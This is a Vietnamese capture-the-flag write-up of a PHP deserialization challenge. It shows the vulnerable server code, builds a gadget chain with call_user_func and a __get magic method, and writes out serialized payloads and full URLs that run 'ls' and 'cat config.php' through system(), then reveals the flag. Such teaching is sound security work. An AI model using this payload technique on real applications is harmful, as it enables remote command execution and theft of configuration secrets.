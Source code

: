 # Bài tập 1 - Nhóm bài tập

##
### Team: Acceleration

### Link bài tập: [http://45.122.249.68:10001/](http://45.122.249.68:10001/)
##

Bước đầu truy cập vào link, ta nhận được một file php của server

```php
<?php
#include "config.php";
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
?>
```

Phần code gồm 3 class và phần if phía dưới, ta phân tích phần if phía dưới

```php
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
```

Ta thấy rằng server lấy dữ liệu từ biến code, và tiến hành unserialize, vậy đây là lỗi php deserialization, ta sẽ lợi dụng việc deserialization để thay đổi các object

Nhìn vào class `Show_color`, ta thấy trong class này có hàm `__destruct()` sẽ được tự động gọi khi hủy đối tượng, trong đó gọi đến `call_user_func($this->type->adu,$this->color)`
hàm này nếu ta control được 2 đối số truyền vào, ta có thể thực thi lệnh hệ thống, ví dụ ta có thể thực thi `system('ls')` bằng `call_user_func('system','ls')`

```php
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
```

Vậy bây giờ ta cần tìm cách để gán 2 tham số vào, ta nhận thấy tham số thứ 2 đến từ `$this->color`, ta dễ dàng thay đổi từ vì chúng được unserialize, còn tham số đầu tiên dùng truy vấn
`$this->type->adu`, như vậy ta phải thay nó bằng một object mà `object->adu = 'system'`

Trong 3 class trong source code không có class nào có thuộc tính `adu` cả, tuy nhiên ta để ý class `do_nothing` có một magic method `__get()`

```php
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
```

Với magic method `__get()` này thì các truy vấn như `object->adu` sẽ không truy vấn trực tiếp đến biến `adu` trong class nữa mà sẽ được truyền vào hàm `__get($method)` với `$method = 'adu'`

Nhìn vào hàm `__get($method)`, ta nhận thấy nếu biến `$this->why` được set giá trị thì hàm sẽ luôn trả về `$this->i_use_this` bất kể giá trị `$method` có là gì, vậy ta chỉ cần thay
`$this->type` ở class `Show_color` là một object thuộc class `do_nothing` với tham số `$this->why = 1` và `$this->i_use_this = 'ls'` (tham số `$this->why` được set tùy ý)

Như vậy khi hủy đối tượng thuộc class `Show_color`, server gọi hàm `call_user_func($this->type->adu,$this->color)` với `$this->type->adu = $this->type->i_use_this = 'system'` và `$this->color = 'ls'`

Ta sử dụng code sau để unserialize đối tượng

```php
<?php
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
    public function __destruct(){
        call_user_func($this->type->adu,$this->color);
    }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
$a = new do_nothing(1, 'system');
$b = new Show_color($a, 'ls');
echo serialize($b);
?>
```

Chạy thử, ta nhận được chuỗi serialize là `O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:1;s:10:"i_use_this";s:6:"system";}}`

![](images/1.png)

Thay vào biến code trên link [http://45.122.249.68:10001/?code=O:10:%22Show_color%22:2:{s:5:%22color%22;s:2:%22ls%22;s:4:%22type%22;O:10:%22do_nothing%22:2:{s:3:%22why%22;i:1;s:10:%22i_use_this%22;s:6:%22system%22;}}](http://45.122.249.68:10001/?code=O:10:%22Show_color%22:2:{s:5:%22color%22;s:2:%22ls%22;s:4:%22type%22;O:10:%22do_nothing%22:2:{s:3:%22why%22;i:1;s:10:%22i_use_this%22;s:6:%22system%22;}})

![](images/2.png)

Ta thấy trong system có 2 file là `index.php` (file đang chạy) và `config.php`

Sử dụng cách cũ nhưng lần này ta thử thay lệnh 'ls' bằng lệnh 'cat config.php' thử

serialize: `O:10:"Show_color":2:{s:5:"color";s:14:"cat config.php";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:1;s:10:"i_use_this";s:6:"system";}}`

link: [http://45.122.249.68:10001/?code=O:10:%22Show_color%22:2:{s:5:%22color%22;s:14:%22cat%20config.php%22;s:4:%22type%22;O:10:%22do_nothing%22:2:{s:3:%22why%22;i:1;s:10:%22i_use_this%22;s:6:%22system%22;}}](http://45.122.249.68:10001/?code=O:10:%22Show_color%22:2:{s:5:%22color%22;s:14:%22cat%20config.php%22;s:4:%22type%22;O:10:%22do_nothing%22:2:{s:3:%22why%22;i:1;s:10:%22i_use_this%22;s:6:%22system%22;}})

Ta nhận được một trang trắng tinh, những kiểm tra source, ta tìm được flag

![](images/3.png)

flag: `flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}`

